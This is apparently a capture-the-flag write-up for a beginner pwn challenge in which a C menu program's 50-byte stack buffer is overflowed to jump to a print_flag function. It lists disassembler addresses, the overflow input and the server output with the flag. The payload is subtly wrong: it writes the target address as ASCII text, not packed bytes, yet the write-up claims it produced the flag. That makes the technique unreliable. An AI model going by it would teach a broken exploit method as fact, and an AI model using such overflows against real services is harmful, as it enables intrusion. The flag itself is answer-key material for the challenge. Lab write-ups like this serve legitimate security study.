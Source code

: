 # Beginner Menu
### Category: PWN
### Difficulty: Beginner
### Author: geekgeckoalex

# Description

I just made this menu for my coding class. I think I covered all the switch cases.

# Attachments

nc Credentials, makefile, basic-menu.c, menu.

# Initial thoughts

Since this is a beginner-level pwn challenge, my assumption was that the solution is a buffer overflow, but when I looked at the .c file I got skeptical for a second because I thought its length was redundant for just a buffer overflow.
Still it turns it was a buffer overflow after all.

# Solution

if we look at the start of the main function, we see the following:

	int main(void) {
	
	// Ignore me
    	setbuf(stdout, NULL);

    	char buf[50];

	[...]
	
	}

The buffer is being initialised in the 6th line of the code snipplet above. It has size 50.
With this information we can initialise an attack. At the very top of the script we can also see the name of the function that prints the flag, so we can go ahead and get the function adress.

	0x000010f0    1 43           entry0
	0x00001120    4 41   -> 34   sym.deregister_tm_clones
	0x00001150    4 57   -> 51   sym.register_tm_clones
	0x00001190    5 57   -> 50   sym.__do_global_dtors_aux
	0x000010e0    1 6            sym.imp.__cxa_finalize
	0x000011d0    1 5            entry.init0
	0x00001000    3 23           sym._init
	0x000015a0    1 1            sym.__libc_csu_fini
	0x000015a4    1 9            sym._fini
	0x00001540    4 93           sym.__libc_csu_init	
	0x00001218   19 797          main
	**0x000011d5    1 67           sym.print_flag**
	0x000010a0    1 6            sym.imp.fopen
	0x00001070    1 6            sym.imp.fgets
	0x00001030    1 6            sym.imp.puts
	0x00001040    1 6            sym.imp.setbuf
	0x00001050    1 6            sym.imp.printf
	0x00001060    1 6            sym.imp.srand
	0x00001080    1 6            sym.imp.strcmp
	0x00001090    1 6            sym.imp.time
	0x000010b0    1 6            sym.imp.atoi
	0x000010c0    1 6            sym.imp.exit
	0x000010d0    1 6            sym.imp.rand


The sym.print_flag function is what we are looking for, and since we have the functions address now, we can overflow the buffer.

We use the information that the size is 50, and that the adress is 0x000011d5. Using pythong (or by doing it manually) we can prepare our input.

	Python command:  "A" * 50 + "B" * 8 + "0x000011d5"
	Output: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB0x000011d5'

Now we just have to paste that into the server by connecting to it using the netcat credentials in order to get the flag.

	Enter the number of the menu item you want:
	1: Hear a joke
	2: Tell you the weather
	3: Play the number guessing game
	4: Quit
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB0x000011d5
	bctf{y0u_ARe_sNeaKy}

# Flag

bctf{y0u_ARe_sNeaKy}
